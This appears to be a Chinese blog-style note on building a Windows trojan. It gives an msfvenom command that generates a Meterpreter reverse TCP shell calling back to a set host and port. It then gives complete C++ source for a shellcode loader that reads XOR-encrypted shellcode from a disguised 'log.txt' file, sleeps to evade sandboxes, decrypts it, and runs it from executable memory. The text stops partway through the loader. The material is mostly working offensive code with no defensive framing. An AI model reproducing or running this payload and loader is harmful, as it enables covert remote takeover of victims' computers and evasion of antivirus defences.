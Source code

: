 生成木马,本来想用https，但是上不了线，只能用tcp了

```plain
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.31.41 LPORT=8888 -f raw -o test.txt
```

写了分离的shellcode加载器：

```plain
#include <iostream>
#include <fstream>
#include <vector>
#include <Windows.h>

char Key[7] = { 'Y', 'U', 'Z', 'S', 'O', 'F', 'T' };
// 解密函数
int keyLength = 7;

void decrypt(std::vector<unsigned char>& encryptedData) {
    int keyIndex = 0; // 初始密钥索引为0

    for (size_t i = 0; i < encryptedData.size(); ++i) {
        encryptedData[i] = encryptedData[i] ^ Key[keyIndex]; // 使用当前密钥进行异或解密
        keyIndex = (keyIndex + 1) % keyLength; // 更新密钥索引，确保在0到6之间循环
    }
}


int main() {

    // 读取 shellcode 从本地已经加密的 log 文件
    std::ifstream file("log.txt", std::ios::binary);
    std::vector<unsigned char> shellcode;


    if (file) {
        file.seekg(0, std::ios::end);
        size_t size = file.tellg();
        shellcode.resize(size);

        file.seekg(0, std::ios::beg);
        file.read(reinterpret_cast<char*>(shellcode.data()), size);
        file.close();
    }
    else {
        std::cout << "open file fail" << std::endl;
        return 1;
    }
    Sleep(35000);
    decrypt(shellcode);
    // 分配内存
    LPVOID allocMem = VirtualAlloc(NULL, shellcode.size(), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (allocMem == NULL) {
        std::cout << "内存分配" << std::endl;
        return 1;
    }
    // 将 shellcode 拷贝到分配的内存中
    memcpy(allocMem, shellcode.data(), shellcode.size());
    // 执行 shellcode
    typedef void (*ShellcodeFunction)();
    ShellcodeFunction func = (ShellcodeFunction)allocMem;
    func();

    // 释放内存
```